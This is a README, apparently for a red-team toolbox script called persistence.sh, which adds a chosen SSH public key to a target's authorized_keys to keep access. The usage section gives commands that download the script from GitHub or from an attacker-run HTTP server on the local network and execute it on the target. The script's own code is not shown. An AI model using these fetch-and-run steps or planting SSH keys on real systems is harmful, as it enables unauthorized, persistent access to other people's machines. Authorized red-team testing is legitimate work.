 # Persistence Phase

Definition...  

Available parts:
- Modify SSH Keys

## Usage

```sh
# From github
curl -LJO https://github.com/McSquizzy/red-team-toolbox/blob/main/persistence/persistence.sh
sh persistence.sh -h
```
```sh
# Local network
# Host:
python -m SimpleHTTPServer 8000 #or
python3 -m http.server 8000
# Target
curl -LJO <Host>:8000/persistence.sh
sh persistence.sh -h
```

### Parameters
```sh
sh persistence.sh -h

Usage: sh persistence.sh [-h] [-s]

-s <SSH public key>
  Trying to add ssh public key to authorized_keys
```

## Results

Results are output directly to the STDOUT.

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems. 